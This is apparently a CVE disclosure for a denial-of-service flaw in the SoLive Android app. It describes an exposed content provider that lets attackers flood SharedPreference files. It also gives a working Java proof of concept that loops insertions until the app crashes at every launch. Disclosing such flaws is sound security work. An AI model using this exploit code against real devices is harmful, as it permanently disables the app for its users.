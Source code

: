 ## Denial of Service exists in SoLive（CVE-2023-29731）

Vendor：SoLive App(https://so-live.web.app/)

Affected product：SoLive(com.matchtech.solive)

Version：1.6.14,1.6.20

Download link：https://play.google.com/store/apps/details?id=com.matchtech.solive&hl=en_US&gl=US

Description of the vulnerability for use in the CVE：SoLive 1.6.14 thru 1.6.20 for Android has an exposed component that provides a method to modify the SharedPreference file. An attacker can leverage this method to inject a large amount of data into any SharedPreference file, which will be loaded into memory when the application is opened. When an attacker injects too much data, the application will trigger an OOM error and crash at startup, resulting in a persistent denial of service.



poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    String randomString =getRandomString(512);
    Uri uri = Uri.parse("content://com.matchtech.solive.TTMultiProvider/t_sp/contain/" + "zztest" + "?sp_file_name=adjust_preferences");
    while (true) {
        ContentValues contentValues = new ContentValues();
        contentValues.put(randomString,randomString);
        contentResolver.insert(uri,contentValues);
    }
}
```



